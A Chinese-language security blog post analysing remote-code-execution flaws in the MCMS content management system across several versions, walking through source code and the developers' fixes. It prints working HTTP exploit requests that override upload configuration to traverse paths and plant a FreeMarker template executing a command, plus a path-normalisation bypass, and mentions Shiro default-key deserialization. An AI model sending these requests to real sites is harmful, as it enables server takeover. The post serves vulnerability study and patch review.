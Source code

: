 
# [](#%E5%8F%88%E5%8F%88%E5%8F%88%E6%98%AF%E4%B8%80%E4%B8%AA%E5%B1%9E%E6%80%A7%E8%A6%86%E7%9B%96%E5%B8%A6%E6%9D%A5%E7%9A%84%E6%BC%8F%E6%B4%9E "又又又是一个属性覆盖带来的漏洞")又又又是一个属性覆盖带来的漏洞

想到最近出了好几个与属性覆盖有关的漏洞，突然想到有一个国产系统也曾经出过这类问题，比较有趣这里简单分享一下，希望把一些东西串起来分享方便学到一些东西

## [](#%E5%89%8D%E5%90%8E%E7%AB%AF%E6%A1%86%E6%9E%B6%E4%BF%A1%E6%81%AF%E6%A2%B3%E7%90%86 "前后端框架信息梳理")前后端框架信息梳理

首先简单从官网可以看出所使用的框架信息以及技术选型

[https://gitee.com/mingSoft/MCMS?\_from=gitee\_search](https://gitee.com/mingSoft/MCMS?_from=gitee_search)

我们主要关注几个点一个是 shiro，一个是 freemarker，还有就是具体的一些未鉴权的功能点，同时支持两种部署方式 jar/war

关于路由的说明，在启动类当中，指出了扫描的包名前缀为 net.mingsoft

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br>@SpringBootApplication(scanBasePackages = {"net.mingsoft"})<br>@MapperScan(basePackages={"**.dao","com.baomidou.**.mapper"})<br>@ServletComponentScan(basePackages = {"net.mingsoft"})<br>public class MSApplication {<br>	public static void main(String[] args) {<br>		SpringApplication.run(MSApplication.class, args);<br>	}<br>}<br>``` |

因此与路由相关函数只会出现在三个地方

1.  源目录下
2.  ms-basic 依赖包下
3.  ms-mdiy 依赖包下

这个系统曾出现过很多漏洞，各类后台文件上传利用，注入、任意文件删除等等，但其实都比较鸡肋不适合学习

## [](#Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E7%89%88%E6%9C%AC-lt-5-2-8 "Shiro反序列化(版本<=5.2.8 )")Shiro 反序列化 (版本<=5.2.8 )

在开始前先简单我们知道 shiro 的版本高低只是加密方式的改变，实际上反序列化漏洞依然存在，如果系统使用了默认的 key 那也是存在潜在风险的，而恰好在 MCMS<=5.2.8 版本下都使用了默认的 key，使用这个 key 生成 payload，直接打 CB 链即可![image-20231228213327055](assets/1704158399-71f9647455d0bde0cbe904cbb4f0407b.png)

接下来我们重点看另一个漏洞

## [](#%E5%89%8D%E5%8F%B0%E6%A8%A1%E6%9D%BFSSTIRCE%E5%88%A9%E7%94%A8%E5%8F%B2 "前台模板SSTIRCE利用史")前台模板 SSTIRCE 利用史

接下来我们看另一个漏洞，和模板相关的漏洞

因为这里的模板渲染使用了`freemarker`，我们便有两个思路：

1.  版本是否在漏洞版本
2.  写法是否安全

在 MCMS 中关于模板的渲染处理，是通过封装了一个工具类做的处理，在依赖包`ms-mdiy`中的`net.mingsoft.mdiy.util.ParserUtil#rendering`做处理

MCMS 是在 5.1 版本开始使用`freemarker`做模板渲染，并且版本一直没有改变过，传家宝`"2.3.31"`

对于 freemarker 的模板，通常是通过 api 与 new 进行的利用，当然也有利用限制

对于内置函数 api

`api_builtin_enabled`为`true`时才可使用 api 函数，而该配置在 2.3.22 版本之后默认为`false`

对于内置函数 new

从 2.3.17 版本以后，官方版本提供了三种 TemplateClassResolver 对类进行解析：

1、UNRESTRICTED\_RESOLVER：可以通过 `ClassUtil.forName(className)`获取任何类。

2、SAFER\_RESOLVER：不能加载`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类。

3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。

可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过 new() 函数对`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类的解析

尽管 MCMS 的漏洞版本比较高，但是他在 5.8 版本以下并未对内置函数 new 做严格限制，具体我们可以看看`net.mingsoft.mdiy.util.ParserUtil#rendering`

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```bash<br>public static String rendering(Map root, String content) throws IOException, TemplateException {<br>    Configuration cfg = new Configuration(Configuration.VERSION_2_3_0);<br>    StringTemplateLoader stringLoader = new StringTemplateLoader();<br>    stringLoader.putTemplate("template", content);<br>    cfg.setNumberFormat("#");<br>    cfg.setTemplateLoader(stringLoader);<br>    Template template = cfg.getTemplate("template", "utf-8");<br>    StringWriter writer = new StringWriter();<br>    template.process(root, writer);<br>    return writer.toString();<br>}<br>``` |

虽然在 freemarker 版本在较安全的版本，但并未配置 new-builtin-class-resolver，因此接下来我们只需要找到调用的点即可

在高版本后 5.2.9，开发者终于意识到这个问题，设置了`cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);`

回到正题，这里我们先从较低的版本说起，以 5.2.5 来做例子

### [](#V-lt-5-2-5 "V<=5.2.5")V<=5.2.5

首先是一个能任意控制模板渲染的函数

这个路由非常好找，就在源码路径下为数不多不是 CRUD 功能的类中`net.mingsoft.cms.action.web.MCmsAction#search`

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>``` | ```bash<br>/**<br>     * 实现前端页面的文章搜索<br>     *<br>     * @param request  搜索id<br>     * @param response<br>     */<br>    @RequestMapping(value = "search",method = {RequestMethod.GET, RequestMethod.POST})<br>    @ResponseBody<br>    public String search(HttpServletRequest request, HttpServletResponse response) {<br>        String search = BasicUtil.getString("tmpl", "search.htm");<br>				............<br>        //解析后的内容<br>        String content = "";<br>        try {<br>            //根据模板路径，参数生成<br>            content = ParserUtil.rendering(search, params);<br>        } catch (TemplateNotFoundException e) {<br>            e.printStackTrace();<br>        } catch (MalformedTemplateNameException e) {<br>            e.printStackTrace();<br>        } catch (ParseException e) {<br>            e.printStackTrace();<br>        } catch (IOException e) {<br>            e.printStackTrace();<br>        }<br>        return content;<br>    }<br>``` |

可以这里通过`tmpl`参数能实现渲染文件的完全控制，但是

在`ParserUtil.getPageSize(search, 20)`当中我们会发现，其读取文件过程中使用了`hutool`的`FileUtil.file`,在这个第三方工具类使用了 checkSlip 防止目录穿越，因此非常可惜我们现在能渲染任意路径下的文件了

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```bash<br>public static File checkSlip(File parentFile, File file) throws IllegalArgumentException {<br>    if (null != parentFile && null != file) {<br>        String parentCanonicalPath;<br>        String canonicalPath;<br>        try {<br>            parentCanonicalPath = parentFile.getCanonicalPath();<br>            canonicalPath = file.getCanonicalPath();<br>        } catch (IOException var5) {<br>            throw new IORuntimeException(var5);<br>        }<br><br>        if (!canonicalPath.startsWith(parentCanonicalPath)) {<br>            throw new IllegalArgumentException("New file is outside of the parent dir: " + file.getName());<br>        }<br>    }<br><br>    return file;<br>}<br>``` |

那要想实现，那必须找到一个能够控制任意路径上传，或者能够配合目录穿越跳转的上传点，这个系统中正好就有，在`net.mingsoft.basic.action.web.EditorAction#editor`中，参数传入后交给了`MsUeditorActionEnter`类继续处理

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>``` | ```bash<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String rootPath = BasicUtil.getRealPath("");<br>    File saveFloder = new File(this.uploadFloderPath);<br>    if (saveFloder.isAbsolute()) {<br>        rootPath = saveFloder.getPath();<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "");<br>    } else {<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + this.uploadFloderPath);<br>    }<br><br>    String json = (new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""))).exec();<br>    if (saveFloder.isAbsolute()) {<br>        Map data = (Map)JSON.parse(json);<br>        data.put("url", this.uploadMapping.replace("/**", "") + data.get("url"));<br>        return JSON.toJSONString(data);<br>    } else {<br>        return json;<br>    }<br>}<br><br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

在初始化过程中，先初始化了父类，这里可以看到，`actionType`受我们传入的参数控制，这个参数决定了方法的调用

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>public ActionEnter(HttpServletRequest request, String rootPath) {<br>    this.request = request;<br>    this.rootPath = rootPath;<br>    this.actionType = request.getParameter("action");<br>    this.contextPath = request.getContextPath();<br>    this.configManager = ConfigManager.getInstance(this.rootPath, this.contextPath, request.getRequestURI());<br>}<br>``` |

接下来回到`MsUeditorActionEnter`构造函数处理过程，紧接着调用了`this.getConfigManager()`初始化一些上传配置，而这个配置来源于文件`static/plugins/ueditor/1.4.3.3/jsp/config.json`，这个配置文件对上传做了限制，包括保存文件路径模板、大小、允许的后缀等，感兴趣的可以自己看看这个初始化过程，因为不太关键这里就不多叙述

在这里可以看到存在一个参数覆盖的问题 (jsonConfig 来源于 web 参数)，可以由自定义的输入覆盖默认配置，具体覆盖什么配置待会儿会说

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```bash<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

接下来初始化后调用 exec 方法，这里 callback 是否传入对我们不是很重要，继续看 invoke 方法

根据我们之前传入的 actionType 决定走入哪个分支

可以看到一共有 8 种类型，对应了不同的漏洞点，因为我们`只关心RCE`，所以这里就以上传为例，选择 uploadfile

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br>this.put("config", 0);<br>this.put("uploadimage", 1);<br>this.put("uploadscrawl", 2);<br>this.put("uploadvideo", 3);<br>this.put("uploadfile", 4);<br>this.put("catchimage", 5);<br>this.put("listfile", 6);<br>this.put("listimage", 7);<br>``` |

在之后调用`(new Uploader(this.request, conf)).doExec()`做处理，这里的参数走向我们同样不在乎随便选择一个即可

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```bash<br>public final State doExec() {<br>    String filedName = (String)this.conf.get("fieldName");<br>    State state = null;<br>    if ("true".equals(this.conf.get("isBase64"))) {<br>        state = Base64Uploader.save(this.request.getParameter(filedName), this.conf);<br>    } else {<br>        state = BinaryUploader.save(this.request, this.conf);<br>    }<br><br>    return state;<br>}<br>``` |

省略其中的不关键的部分，这里我们只需要关注最终保存路径的生成即可

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br>...<br>String savePath = (String)conf.get("savePath");<br>String originFileName = fileStream.getName();<br>String suffix = FileType.getSuffixByFilename(originFileName);<br>originFileName = originFileName.substring(0, originFileName.length() - suffix.length());<br>savePath = savePath + suffix;<br>long maxSize = (Long)conf.get("maxSize");<br>if (!validType(suffix, (String[])((String[])conf.get("allowFiles")))) {<br>    return new BaseState(false, 8);<br>} else {<br>    savePath = PathFormat.parse(savePath, originFileName);<br>    String physicalPath = (String)conf.get("rootPath") + savePath;<br>    InputStream is = fileStream.openStream();<br>    State storageState = StorageManager.saveFileByInputStream(is, physicalPath, maxSize);<br>    is.close();<br>    if (storageState.isSuccess()) {<br>        storageState.putInfo("url", PathFormat.format(savePath));<br>        storageState.putInfo("type", suffix);<br>        storageState.putInfo("original", originFileName + suffix);<br>    }<br>}<br>...<br>``` |

1.  从配置获取保存的路径
2.  从 Multipart 解析文件后缀拼接
3.  使用 PathFormat.parse 处理替换模板标签内容
4.  与根路径拼接并写入文件

在`com.baidu.ueditor.PathFormat#parse`的处理过程当中会对 filename 中字符做替换，导致`/`字符丢失因此不能从 filename 控制路径的穿越

|     |     |
| --- | --- |
| ```bash<br>1<br>``` | ```bash<br>filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>``` |

因此我们只能通过控制`savePath`实现完整的路径控制 (还记得么，上面一开始提到过可以做参数覆盖)，对于我们的 uploadfile 的 action，对应的 savepath 属性为 filePathFormat，因此构造，当然也可以覆盖其他属性参数这里不重复

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```bash<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={{url({filePathFormat:'/template/1/default/2'})}}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8079<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-2-8 "V<=5.2.8")V<=5.2.8

接下来我们看看开发是如何修复这个问题的，这里我的环境是 5.2.8，这一次开发意识到了问题所在，做了两个步骤的修复

1.  rootPath 由程序控制在必须为 upload 目录下
2.  对每一个路径配置做了一次路径归一化

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```bash<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFloderPath = MSProperties.upload.path;<br>    String rootPath = BasicUtil.getRealPath(uploadFloderPath);<br>    jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFloderPath);<br>    Map<String, Object> map = (Map)JSONObject.parse(jsonConfig);<br>    String imagePathFormat = (String)map.get("imagePathFormat");<br>    imagePathFormat = FileUtil.normalize(imagePathFormat);<br>    String filePathFormat = (String)map.get("filePathFormat");<br>    filePathFormat = FileUtil.normalize(filePathFormat);<br>    String videoPathFormat = (String)map.get("videoPathFormat");<br>    videoPathFormat = FileUtil.normalize(videoPathFormat);<br>    map.put("imagePathFormat", imagePathFormat);<br>    map.put("filePathFormat", filePathFormat);<br>    map.put("videoPathFormat", videoPathFormat);<br>    jsonConfig = JSONObject.toJSONString(map);<br>    MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>    String json = actionEnter.exec();<br>    Map jsonMap = (Map)JSON.parseObject(json, Map.class);<br>    jsonMap.put("url", "/".concat(uploadFloderPath).concat(jsonMap.get("url") + ""));<br>    return JSONObject.toJSONString(jsonMap);<br>}<br>``` |

那是不是就没办法了呢？请独立思考三分钟

之前提到了在`PathFormat.parse`当中，有对最终路径当中的模板做替换 (当然这里和老版本的逻辑不一样，简化了很多，分析时以当前版本为准，有兴趣可以看看老版)，可以看到会取{xxx}中的内容，之后调用 getString 做替换

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```bash<br>public static String parse(String input, String filename) {<br>    Pattern pattern = Pattern.compile("\\{([^\\}]+)\\}", 2);<br>    Matcher matcher = pattern.matcher(input);<br>    String matchStr = null;<br>    currentDate = new Date();<br>    StringBuffer sb = new StringBuffer();<br><br>    while(matcher.find()) {<br>        matchStr = matcher.group(1);<br>        if (matchStr.indexOf("filename") != -1) {<br>            filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>            matcher.appendReplacement(sb, filename);<br>        } else {<br>            matcher.appendReplacement(sb, getString(matchStr));<br>        }<br>    }<br><br>    matcher.appendTail(sb);<br>    return sb.toString();<br>}<br>``` |

可以看到如果字符不在当前的 case 当中会直接返回

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br>private static String getString(String pattern) {<br>    pattern = pattern.toLowerCase();<br>    if (pattern.indexOf("time") != -1) {<br>        return getTimestamp();<br>    } else if (pattern.indexOf("yyyy") != -1) {<br>        return getFullYear();<br>    } else if (pattern.indexOf("yy") != -1) {<br>        return getYear();<br>    } else if (pattern.indexOf("mm") != -1) {<br>        return getMonth();<br>    } else if (pattern.indexOf("dd") != -1) {<br>        return getDay();<br>    } else if (pattern.indexOf("hh") != -1) {<br>        return getHour();<br>    } else if (pattern.indexOf("ii") != -1) {<br>        return getMinute();<br>    } else if (pattern.indexOf("ss") != -1) {<br>        return getSecond();<br>    } else {<br>        return pattern.indexOf("rand") != -1 ? getRandom(pattern) : pattern;<br>    }<br>}<br>``` |

有了这个思路我们便可以构造如下 payload 绕过校验

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```bash<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={filePathFormat:'/{.}./template/1/default/2'}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8080<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-3-5-%E7%9B%AE%E5%89%8D%E6%9C%80%E6%96%B0%E7%89%88 "V<=5.3.5(目前最新版)")V<=5.3.5(目前最新版)

首先来看最新版做了哪些变动

1.  在最外层做了 jsonConfig 判断内容 (似乎也没修复什么)

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>``` | ```bash<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFolderPath = MSProperties.upload.path;<br>    boolean enableWeb = MSProperties.upload.enableWeb;<br>    if (!enableWeb) {<br>        HashMap<String, String> map = new HashMap();<br>        map.put("state", "front end upload is not enabled");<br>        return JSONUtil.toJsonStr(map);<br>    } else {<br>        String rootPath = BasicUtil.getRealPath(uploadFolderPath);<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFolderPath);<br>        Map<String, Object> map = (Map)JSONUtil.toBean(jsonConfig, Map.class);<br>        String imagePathFormat = (String)map.get("imagePathFormat");<br>        imagePathFormat = FileUtil.normalize(imagePathFormat);<br>        String filePathFormat = (String)map.get("filePathFormat");<br>        filePathFormat = FileUtil.normalize(filePathFormat);<br>        String videoPathFormat = (String)map.get("videoPathFormat");<br>        videoPathFormat = FileUtil.normalize(videoPathFormat);<br>        map.put("imagePathFormat", imagePathFormat);<br>        map.put("filePathFormat", filePathFormat);<br>        map.put("videoPathFormat", videoPathFormat);<br>        jsonConfig = JSONUtil.toJsonStr(map);<br>        if (jsonConfig == null \| !jsonConfig.contains("../") && !jsonConfig.contains("..\\")) {<br>            MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>            String json = actionEnter.exec();<br>            Map jsonMap = (Map)JSONUtil.toBean(json, Map.class);<br>            jsonMap.put("url", "/".concat(uploadFolderPath).concat(jsonMap.get("url") + ""));<br>            return JSONUtil.toJsonStr(jsonMap);<br>        } else {<br>            throw new BusinessException(BundleUtil.getString("net.mingsoft.base.resources.resources", "err.error", new String[]{BundleUtil.getString("net.mingsoft.basic.resources.resources", "file.path", new String[0])}));<br>        }<br>    }<br>}<br>``` |

2.  禁止通过属性覆盖修改允许的后缀 (我估计开发以为模板引擎必须要 htm 后缀才行了，忘记他自己写的函数是可以随意指定后缀了 2333)，以及文件读取相关属性

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```bash<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>        super(request, rootPath);<br>        if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>            this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>            ConfigManager config = this.getConfigManager();<br>            setValue(config, "rootPath", rootPath);<br>            JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>            _jsonConfig.remove("fileManagerAllowFiles");<br>            _jsonConfig.remove("imageManagerAllowFiles");<br>            _jsonConfig.remove("catcherAllowFiles");<br>            _jsonConfig.remove("imageAllowFiles");<br>            _jsonConfig.remove("fileAllowFiles");<br>            _jsonConfig.remove("videoAllowFiles");<br>            _jsonConfig.remove("imageManagerListPath");<br>            _jsonConfig.remove("fileManagerListPath");<br>            JSONObject jsonObject = config.getAllConfig();<br>            Iterator iterator = _jsonConfig.keys();<br><br>            while(iterator.hasNext()) {<br>                String key = (String)iterator.next();<br>                jsonObject.put(key, _jsonConfig.get(key));<br>            }<br><br>        }<br>    }<br>``` |

3.  引擎解析测

设置禁止加载任意类

|     |     |
| --- | --- |
| ```bash<br>1<br>``` | ```bash<br>cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER)<br>``` |

但这样并不能完全修复问题，可以参考辅助学习 ([https://www.cnblogs.com/escape-w/p/17326592.html)，虽然这个项目不存在这些问题就是了](https://www.cnblogs.com/escape-w/p/17326592.html)%EF%BC%8C%E8%99%BD%E7%84%B6%E8%BF%99%E4%B8%AA%E9%A1%B9%E7%9B%AE%E4%B8%8D%E5%AD%98%E5%9C%A8%E8%BF%99%E4%BA%9B%E9%97%AE%E9%A2%98%E5%B0%B1%E6%98%AF%E4%BA%86)

那么如何才能 rce 呢？提示一下，我们知道此时文件上传其实仍然能够跨目录写的，那么只能从白名单中受限的后缀入手，发挥你的想象，这里就不直接给出答案了
